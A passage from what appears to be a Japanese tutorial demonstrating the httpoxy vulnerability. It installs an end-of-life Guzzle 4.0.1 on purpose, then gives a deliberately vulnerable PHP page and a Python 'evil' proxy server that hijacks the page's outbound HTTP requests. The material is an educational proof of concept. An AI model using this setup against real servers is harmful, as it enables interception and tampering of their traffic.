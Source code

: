 HTTP_PROXY変数に任意の値を格納することに成功しました。これが一体どういう問題を起こすのでしょうか？
Guzzile4系のようなHTTP_PROXY環境変数を利用するHTTPクライアントを利用すると問題は顕在化します。

 * guzzle4.0.1のインストール

```
curl -sS https://getcomposer.org/installer | php
php composer.phar require guzzlehttp/guzzle:~4.0.1
```

guzzleの最新版は6系です。4系はEOLになっており、脆弱性を発現させるために故意に導入しています。
次に脆弱なphpファイルを作成します。test.phpは内部でHTTPクライアントを作成して、ok.phpのレスポンスを表示します。

 * test.php

```

<html>
<head>
<title>title httpoxy proof of concept</title>
<body>
<?php
if (getenv('HTTP_PROXY') == false) {
    echo "HTTP_PROXY variable is false";
}else{
    echo "HTTP_PROXY variable is ".getenv('HTTP_PROXY');
}
require 'vendor/autoload.php';
$client = new GuzzleHttp\Client();
$res = $client->get('http://scapegoat.test/ok.php');

echo "OK.php return response is " . $res->getBody();
?>
</body>
</html>
```

 * ok.php

```
<?php
echo "OK";
?>
```

攻撃者は悪意のあるproxyサーバを自分のコントロール下で構築します。ここで用意しているのはproxyとは名ばかりの貧弱なHTTPサーバになっています。

 * proxy.py

```python
#!/usr/bin/python
import http.server
import socketserver
import io

HTTP_PORT = 4000

class httpoxy(http.server.SimpleHTTPRequestHandler):

    def do_GET(self):
        bytes = "Evil".encode('utf-8')
        self.send_response(200)
        self.end_headers()
        self.wfile.write(bytes)
        return

httpd = socketserver.TCPServer(("", HTTP_PORT), httpoxy)
httpd.serve_forever()
```
